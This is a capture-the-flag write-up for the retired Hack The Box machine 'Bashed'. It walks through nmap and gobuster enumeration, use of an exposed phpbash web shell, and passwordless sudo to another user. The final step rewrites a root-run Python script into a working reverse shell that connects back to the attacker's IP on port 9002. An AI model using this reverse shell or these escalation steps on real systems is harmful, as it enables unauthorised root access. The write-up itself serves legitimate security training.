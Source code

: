# Bashed

This is the write-up for the box Bashed that got retired at the 28th April 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.68    bashed.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bashed.nmap 10.10.10.68
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Checking HTTP (Port 80)

On the web page there is an article about a tool called **phpbash** and that it was developed on the same server.

![Phpbash article](https://kyuu-ji.github.io/htb-write-up/bashed/bashed_web-1.png)

So lets use **Gobuster** to look for hidden paths and find this tool:
```markdown
gobuster -u http://10.10.10.68 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following paths that could be interesting:
- uploads
- php
- dev

In the _/dev_ directory is the tool **phpbash.php** that starts a web shell in the browser:

![Web shell](https://kyuu-ji.github.io/htb-write-up/bashed/bashed_web-2.png)

Now we can start a reverse shell to our local client.

## Privilege Escalation

When looking at the root permissions of the user _www-data_ with `sudo -l`, it displays that we can run everything as _scriptmanager_ without a password:
```markdown
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can start a session as the user _scriptmanager_:
```markdown
sudo -u scriptmanager bash
```

### Privilege Escalation to root

Now we are the user _scriptmanager_ and looking at which directories are owned by this user, there is the directory _/scripts_ at the root path.
```markdown
find / -type d -group scriptmanager -user scriptmanager 2>/dev/null
```

In this directory there are two files with the following permissions and content:
```markdown
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb  5 10:40 test.txt
```

```markdown
# test.txt

testing 123!
```

```python
# test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The Python script writes a string into the text file which refreshes its date every minute.
As the Python script file belongs to _scriptmanager_, we can write to it and because the text file is owned by root, it is possible to exploit this by modifying the script to execute a reverse shell.
```python
# test.py

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.39",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After waiting for one minute, the script gets executed and the listener on my IP and port 9002 starts a session as root!
